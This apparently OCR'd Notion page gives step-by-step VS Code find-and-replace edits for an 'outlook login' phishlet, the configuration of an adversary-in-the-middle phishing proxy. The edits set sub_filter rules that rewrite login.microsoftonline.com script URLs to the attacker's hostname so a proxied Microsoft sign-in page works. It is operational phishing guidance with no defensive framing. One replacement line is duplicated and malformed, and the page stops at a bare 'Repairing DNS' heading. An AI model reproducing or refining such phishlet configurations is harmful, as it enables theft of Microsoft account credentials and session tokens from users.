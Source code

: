 ### Modify outlook login Phishlet

These are examples and not universally applicable per phishlet

- In VS Code
    
    [outlook-3.yaml](https://www.notion.so/outlook-3-yaml-1352f628fe5281359701d19df7ee5594?pvs=21)
    
    - CTRL+F `\n`
        
        Replace With:  
        
        ```
        , mimes: ['text/html', 'application/json', 'application/javascript']},
        
        ```
        
    - CTRL+F `, search:`
        
        Replace with: 
        
        ```
        , search: 'https://{hostname}/shared/1.0/content/js/ConvergedLogin_PCore_fq9Dgd1s0yjVHEKfFgpcEQ2.js',
        ```
        
    - CTRL+F `, replace:`
        
        Replace with:
        
        ```docker
        , replace: 'https://{hostname}/shared/1.0/content/js/ConvergedLogin_PCore_fq9Dgd1s0yjVHEKfFgpcEQ2.js',
        ```
        
    - CTRL+F `{triggers_on: 'login.microsoftonline.com', orig_sub: 'login', domain: 'microsoftonline.com', search: 'https://{hostname}/shared/1.0/content/js/ConvergedLogin_PCore_fq9Dgd1s0yjVHEKfFgpcEQ2.js', replace: 'https://{hostname}/shared/1.0/content/js/ConvergedLogin_PCore_fq9Dgd1s0yjVHEKfFgpcEQ2.js', mimes: ['text/html', 'application/json', 'application/javascript']}, mimes: ['text/html', 'application/json', 'application/javascript']}`
        
        Replace With:
        
        ```
        - {triggers_on: 'login.microsoftonline.com', orig_sub: 'login', domain: 'microsoftonline.com', search: 'https://{hostname}/shared/1.0/content/js/ConvergedLogin_PCore_fq9Dgd1s0yjVHEKfFgpcEQ2.js', replace: 'https://{hostname}/shared/1.0/content/js/ConvergedLogin_PCore_fq9Dgd1s0yjVHEKfFgpcEQ2.js', mimes: ['text/html', 'application/json', 'application/javascript']}, mimes: ['text/html', 'application/json', 'application/javascript']} 
        ```
        
    - Modify https://$domain.root/
        - CTRL+F `https://(.*?)\/`
            - Replace with
                
                `https://{hostname}/` 
                

### Repairing DNS
